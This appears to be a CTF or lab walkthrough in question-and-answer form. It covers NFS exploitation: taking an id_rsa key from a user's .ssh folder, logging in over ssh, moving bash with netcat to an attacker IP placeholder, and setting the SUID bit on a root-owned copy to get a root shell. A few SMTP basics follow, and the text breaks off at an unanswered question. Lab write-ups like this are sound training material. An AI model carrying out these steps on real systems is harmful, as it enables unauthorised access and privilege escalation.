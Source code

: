 	  no answer needed

- Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?

	- `.ssh`

- Which of these keys is most useful to us?

	- `id_rsa`

- Can we log into the machine using ssh -i <key-file> <username>@<ip> ? (Y/N)

	- `chmod 600 id_rsa`
	- `ssh -i id_rsa *********@<TARGET_IP>`
	- `Y`

- First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.

	  no answer needed

- Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

	  no answer needed

	- On your machine `nc -lnvp 4444 > bash`
	- On target `nc <YOUR_IP> 4444 < /bin/bash`
	- `sudo chown root bash`

- What letter do we use to set the SUID bit set using chmod?

	- `s`, remember also `x`.

- What does the permission set look like? Make sure that it ends with -sr-x.

	- `-rwsr-sr-x`

- The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.

	  no answer needed

- Great! If all’s gone well you should have a shell as root! What’s the root flag?

	- `********************`

- What does SMTP stand for?

	- `Simple Mail Transfer Protocol`
	
- What does SMTP handle the sending of?

	- `emails`

- What is the first step in the SMTP process?

	- `SMTP handshake`

- What is the default SMTP port?
